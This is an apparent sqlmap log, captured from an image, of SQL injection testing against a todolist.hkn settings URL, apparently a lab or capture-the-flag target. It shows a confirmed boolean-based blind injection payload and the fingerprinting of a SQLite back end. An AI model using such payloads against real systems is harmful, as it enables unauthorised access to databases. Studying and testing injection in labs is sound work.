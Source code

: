 ```log
[17:07:49] [INFO] testing connection to the target URL
[17:07:49] [CRITICAL] page not found (404)
it is not recommended to continue in this kind of cases. Do you want to quit and make sure that everything is set up properly? [Y/n] n
[17:07:50] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[17:07:57] [INFO] target URL content is stable
other non-custom parameters found. Do you want to process them too? [Y/n/q] Y
[17:08:03] [INFO] testing if URI parameter '#1*' is dynamic
got a 302 redirect to 'http://todolist.hkn/settings'. Do you want to follow? [Y/n] n
[17:08:06] [INFO] URI parameter '#1*' appears to be dynamic
[17:08:06] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[17:08:06] [INFO] testing for SQL injection on URI parameter '#1*'
[17:08:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:08:09] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[17:08:11] [INFO] URI parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[17:08:12] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' 
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 

[17:08:18] [INFO] testing 'Generic inline queries'
[17:08:18] [INFO] testing 'SQLite inline queries'
[17:08:18] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[17:08:18] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[17:08:18] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[17:08:18] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[17:08:18] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query - comment)'
[17:08:18] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query - comment)'
[17:08:18] [INFO] testing 'SQLite > 2.0 time-based blind - Parameter replace (heavy query)'
[17:08:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:08:18] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:08:19] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 

[17:08:22] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[17:08:22] [INFO] testing 'Generic UNION query (12) - 21 to 40 columns'
[17:08:22] [INFO] testing 'Generic UNION query (12) - 41 to 60 columns'
[17:08:23] [INFO] testing 'Generic UNION query (12) - 61 to 80 columns'
[17:08:24] [INFO] testing 'Generic UNION query (12) - 81 to 100 columns'
[17:08:24] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[17:08:24] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 350 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: http://todolist.hkn/settings/edit/-7230' OR 1673=1673 OR 'RVWH'='Qjrg
---
[17:08:28] [INFO] testing SQLite
[17:08:28] [INFO] confirming SQLite
[17:08:28] [INFO] actively fingerprinting SQLite
[17:08:28] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[17:08:28] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 8 times, 500 (Internal Server Error) - 181 times
```